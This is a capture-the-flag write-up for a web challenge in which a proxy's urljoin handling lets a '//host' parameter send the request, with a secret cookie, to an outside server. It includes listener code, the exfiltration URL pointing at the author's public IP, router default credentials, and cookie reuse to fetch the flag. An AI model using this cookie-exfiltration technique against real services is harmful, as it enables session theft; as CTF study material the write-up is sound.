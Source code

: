 ## Dont Touch My Flag

[dist_dont_touch_my_flag.tar.gz](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/dist_dont_touch_my_flag.tar.gz)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/chall.png)

> In this challenge, the server censors our output so we need to create our own server to intercept.

> Create personal flask server: Found in [flaskTest.py](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/flaskTest.py)

```python
from flask import Flask, request
app = Flask(__name__)

@app.route("/")
def hello():
    print(request.headers)
    return "Hello World!"

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=80)
```

> Alternatively, Create socketTCP server: Found in [socketServer.py](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/socketServer.py)

```python
from socket import *

serverPort = 80
serverSocket = socket(AF_INET, SOCK_STREAM)
serverSocket.bind(('', serverPort))
serverSocket.listen(1)

print('The server is ready to receive')

while True:
    connectionSocket, addr = serverSocket.accept()
    sentence = connectionSocket.recv(10000).decode()
    print(sentence)
    connectionSocket.send(b'\
HTTP/1.1 200 OK\n\
Date: Mon, 27 Jul 2009 12:28:53 GMT\n\
Server: Apache/2.2.14 (Win32)\n\
Last-Modified: Wed, 22 Jul 2009 19:15:56 GMT\n\
Content-Length: 5\n\
Content-Type: text/html\n\n\
andre')
    connectionSocket.close()
```

> In proxy’s main.py we have:

```python
@app.route("/get")
def get():
    uri = request.args.get("uri", "/")
    full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

    r = requests.get(full_url, cookies={
        "secret": secret
    })
    if r.status_code != 200:
        return f"Request failed: received status code {r.status_code}"

    censored = censor(r.text)
    return censored
```

> So, if we append `/get?uri=//google.com`, The `full_url` will simply be `google.com`

> We can then change `google.com` to computer’s public ip address, which we can obtain from [whatismyip.com](https://www.whatismyip.com/)

> Now, before our public ip, `219.74.153.158`, can be used as a server, we need to do port forwarding.
- Setup public singtel router (http://192.168.1.254/) configuration to accept port 80
- user: root
- pass: admin
- Forward rules > IPv4 Port Mapping

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/portmapping.png)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/port80.png)

> Navigate to http://chals.ctf.sg:40101/get?uri=//219.74.153.158

> The Flask Server:

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/flask.png)

> The Socket Server:

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/socket.png)

> Create a cookie “secret” with the value above

> We need to navigate to /flag as shown here:

```python
@app.route("/")
def index():
    return """
Heres your flag: <span id="flag"></span>
<script>
fetch("/get?uri=/flag")
    .then((res) => res.text())
    .then((flag) => document.querySelector("#flag").innerText = flag);
</script>
"""
```

> With the secret cookie set, Navigate to http://chals.ctf.sg:40102/flag

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Easy/dont-touch-my-flag/solved.png)

> Alternatively, you can use services like [ngrok](https://ngrok.com/) or [webhook](https://webhook.site/) that provides a neat user interface.

`CTFSG{d0nT_toUcH_mY_c00k13s}`
